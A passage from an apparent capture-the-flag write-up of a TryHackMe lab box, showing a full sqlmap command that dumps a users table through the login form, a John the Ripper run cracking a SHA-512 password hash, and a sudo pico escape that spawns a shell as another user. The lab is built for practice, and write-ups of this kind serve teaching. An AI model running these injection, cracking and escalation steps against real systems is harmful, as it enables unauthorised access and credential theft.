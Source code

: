 No dice. What about SQLi? Yes. I usually use *sqlmap* inside Burp Suite and this was no exception. It took a few attempts to get the parameters right but this is what it looked like:

``
-u 'http://hogwartz-castle.thm:80/login' --data='user=doesnot&password=pass' --level=2 --risk=3 --dump --no-cast -T users
``

With this, I got some hashes, including this:

>Harry Turner,0,"My linux username is my first name, and password uses best64",b326e7a664d756c39c9e09a98438b08226f98b89188ad144dd655f140674b5eb3fdac0f19bb3903be1f52c40c252c0e7ea7f5050dec63cf3c85290c0a2c5c885

Well, that's a long hash! *Hash-identifier* says it's SHA-512, and who am I to argue. Following the instruction, and using the information given, I ask John nicely:

{% highlight shell %}
root@kali:/opt/tryhackme/castle# john hash --format=Raw-SHA512 -w=./spellnames.txt --rules-stack=best64
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA512 [SHA512 128/128 AVX 2x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
wingardiumleviosa123 (?)
1g 0:00:00:00 DONE (2021-01-31 21:39) 100.0g/s 614400p/s 614400c/s 614400C/s terga..aguamenti21
Use the "--show" option to display all of the cracked passwords reliably
{% endhighlight %}

Now we have the SSH password for *harry*. Oh also I tried this with Hashcat and it didn't work. Shrug.

## Old what's 'er name?
Let's see what Harry can do:

{% highlight shell %}
harry@hogwartz-castle:~$ sudo -l
[sudo] password for harry: 
Matching Defaults entries for harry on hogwartz-castle:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User harry may run the following commands on hogwartz-castle:
    (hermonine) /usr/bin/pico
    (hermonine) /usr/bin/pico
{% endhighlight %}

Right, so we can become *hermonine* ... ah yeah, sure.

[GTFOBins](https://gtfobins.github.io/gtfobins/pico/#sudo) has our method:

>sudo pico  
^R^X  
reset; sh 1>&0 2>&0
